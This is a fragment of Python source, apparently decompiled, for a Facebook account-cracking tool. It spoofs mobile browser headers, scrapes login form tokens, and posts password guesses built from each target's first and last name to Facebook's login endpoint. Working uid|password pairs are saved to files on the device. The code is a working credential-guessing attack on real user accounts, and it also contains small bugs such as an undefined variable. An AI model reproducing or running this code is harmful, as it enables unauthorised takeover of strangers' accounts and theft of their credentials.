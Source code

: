 			session.headers.update({"Host":"p.facebook.com", "upgrade-insecure-requests": "1", "user-agent": ua, "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "x-requested-with": "com.mi.globalbrowser.mini", "sec-fetch-site":  "none", "sec-fetch-mode": "navigate", "sec-fetch-user": "?1", "sec-fetch-dest": "document", "accept-encoding": "gzip, deflate", "accept-language":  "en-US;q=0.8,en;q=0.7"})
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="105", "Google Chrome";v="105"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
			SHAHBAZ=session.cookies.get_dict().keys()
			if "c_user" in SHAHBAZ:
				print('\r\r\033[1;31m[keramat-CP] %s | %s'%(ids,pas))
				
				open('\x1b[91;1m/sdcard/keramat-CP.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in SAKING:
				if 'y' in pcp:
					print('\r\r\x1b[1;92m[keramat-OK] '+ids+' | '+pas+'\033[1;97m')
					
					open('/sdcard/keramat-OK.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
def ffb(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write('\r\r\033[1;37m[keramat] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua = random.choice(ugen)
			